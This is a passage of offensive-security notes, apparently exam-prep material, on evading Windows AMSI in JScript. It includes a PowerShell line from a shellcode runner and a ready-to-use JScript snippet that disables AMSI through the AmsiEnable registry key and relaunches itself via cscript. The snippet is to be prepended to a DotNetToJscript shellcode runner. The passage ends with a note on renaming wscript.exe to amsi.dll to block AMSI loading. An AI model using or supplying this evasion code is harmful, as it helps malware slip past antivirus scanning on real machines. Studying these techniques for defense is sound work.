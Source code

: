 ```pwsh

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

## Bypassing AMSI in JScript

Jscript handles each command in a single session while PowerShell processes each in a separate session.

=> AmsiScanString and AmsiScanBuffer were called but AmsiOpenSession was not.

### Registry Key

Jscript tries to query the `AmsiEnable` registry key before initializing AMSI (`HKCU\SOFTWARE\Microsoft\Windows Script\Settings\AmsiEnable`).

If this key is set to `0`, AMSI is not enabled for the Jscript process.

This query is performed in the `JAmsi::JAmsiIsEnabledByRegistry` function inside `Jscript.dll`, which is only called when `wscript.exe` is started.

The `cscript.exe` executable, which is the command-line equivalent of `wscript.exe`.

Use `-e` to specify which scripting engine will execute the script.

The globally unique identifier (`GUID`) may be understood as a registry entry under `HKLM\SOFTWARE\Classes\CLSID`.

The `-e` option indicates that the specified script file will be processed by `jscript.dll`.

Prepend below code to the `DotNetToJscript`-generated shellcode runner to bypass AMSI.

```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try{
	var AmsiEnable = sh.RegRead(key);
	if(AmsiEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD");
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1);
	sh.RegWrite(key, 1, "REG_DWORD");
	WScript.Quit(1);
}
```

### Rename `wscript.exe` to `amsi.dll` and executing it

AMSI requires `AMSI.DLL`.

If a process named "`amsi.dll`" tries to load a DLL of the same name, `LoadLibraryExW` will report that it's already in memory and abort the load.
